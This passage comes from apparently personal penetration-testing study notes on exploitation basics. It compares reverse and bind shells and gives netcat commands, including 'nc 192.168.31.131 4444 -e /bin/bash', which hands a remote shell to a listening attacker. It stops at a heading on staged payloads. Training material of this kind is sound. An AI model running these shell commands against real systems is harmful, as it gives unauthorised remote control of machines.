 # Exploitation Basics

## Reverse shell vs Bind shell

➡️ [netcat](https://netcat.sourceforge.net/)

**Reverse shell** - the victim/target connects back to the attacker

- Attack machine - **listening** on a port
- Target machine - connect to the attacker machine listening port

![Netcat Reverse Shell - hackingtutorials.org](.gitbook/assets/Netcat-reverse-shell.jpg)

```bash
# Attacker
nc -nvlp 4444

# Target
nc 192.168.31.131 4444 -e /bin/bash
```

![Reverse shell](.gitbook/assets/2024-07-11_20-40-27_596.png)

**Bind shell** - the attacker opens a port on the target (via exploitation) and connects to it

- Attack machine - exploits target and opens port listening on target and connects to it
- Target machine - listens for the attacker connection

![Netcat Bind Shell - hackingtutorials.org](.gitbook/assets/Netcat-bind-shell.jpg)

- Specially used on external assessment

```bash
# Target
nc -nvlp 4444 -e /bin/bash

# Attacker
nc 192.168.31.131 4444
```

![Bind shell](.gitbook/assets/2024-07-11_20-41-43_597.png)

---

## Staged vs Non-Staged payloads